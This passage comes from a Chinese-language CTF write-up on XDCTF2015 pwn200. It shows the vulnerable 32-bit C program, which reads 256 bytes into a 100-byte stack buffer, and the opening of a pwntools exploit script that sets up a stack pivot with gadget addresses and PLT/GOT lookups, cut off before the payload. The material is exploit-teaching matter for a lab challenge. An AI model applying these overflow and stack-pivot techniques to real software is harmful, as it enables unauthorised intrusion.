 具体伪造方法以XDCTF2015 pwn200为例

## 例
题目源码
```c
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln()
{
    char buf[100];
    setbuf(stdin, buf);
    read(0, buf, 256);
}
int main()
{
    char buf[100] = "Welcome to XDCTF2015~!\n";

    setbuf(stdout, buf);
    write(1, buf, strlen(buf));
    vuln();
    return 0;
}
```
题目为32位，只开了NX，Partial RELRO
由于溢出长度不够，我们先进行一次栈迁移，在已知的目标地址上写入我们的伪造项
exp如下:
```c
#!/usr/bin/env python
#-*- coding: utf-8 -*-
from pwn import*
import os

context(os = 'linux', arch = 'i386', log_level = 'debug', terminal = ['tmux', 'new-window'])

def debug(cmd = ''):
	if len(sys.argv)!=1:
		return
	cmd += """
	b system
	"""
	gdb.attach(p, cmd)
	pause()

def exp(host = "0.0.0.0", port=11451, exe = "./vuln"):
  global p
  if len(sys.argv)==1:
    p = process(exe)
  else:
    p = remote(host, port)
  pass
  elf = ELF('./vuln')

  leave_ret = 0x08049105
  pop3 = 0x080491e9
  pop_ebp = 0x080491eb

  write_plt = elf.plt['write']
  write_got = elf.got['write']
  read_plt = elf.plt['read']

  plt_0    = elf.get_section_by_name('.plt').header.sh_addr
```